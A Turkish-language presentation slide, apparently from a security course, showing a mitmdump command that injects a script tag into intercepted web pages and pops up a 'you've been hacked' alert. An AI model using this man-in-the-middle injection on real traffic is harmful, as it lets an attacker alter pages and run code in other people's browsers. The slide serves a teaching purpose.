

# Otomatik Akışı Değiştirmek
Terminalde root yetkisine sahip olup, mitmproxy klasörünün içinde iken aşağıdaki komutu yazınız.
. /mitmdump --modify-body :~s:"</body>":"<script> alert('BTF YM 4.sınıf Dönem Sonu Hatırası: Hacklendiniz!');</script></body>"